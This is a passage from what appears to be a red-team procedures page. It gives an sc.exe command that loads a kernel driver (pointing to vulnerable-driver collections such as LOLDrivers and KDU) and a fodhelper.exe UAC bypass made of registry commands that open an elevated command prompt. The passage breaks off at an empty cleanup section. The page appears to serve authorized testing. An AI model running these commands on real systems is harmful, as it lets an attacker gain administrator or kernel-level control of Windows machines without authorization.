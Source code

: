 ### Guidance

Example loading using sc.exe

```
cmd> sc.exe create {{ name }} type= kernel start= demand error= normal binpath= c:\windows\System32\Drivers\{{ sys_file }} displayname= {{ name }}
```

### Cleanup

- Is using sc.exe, stop and delete the service then restart the machine

### Notes

Drivers can be found in multiple places, including:

- Directly from vendor sites
- VirusTotal
- Aggregators like LOLDrivers and KDU
  - LOLDrivers: https://github.com/magicsword-io/LOLDrivers/tree/main/drivers
  - KDU: https://github.com/hfiref0x/KDU/

## UAC Bypass - via fodhelper.exe

User Account Control is not a security control but can cause issues with execution when attempting privileged operations

Move to a high-integrity execution context via fodhelper.exe and a Registry modification. Fodhelper.exe is one of many unpatched methods for bypassing UAC.

### Prerequisites

- Split-token admin account

### Guidance

Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup
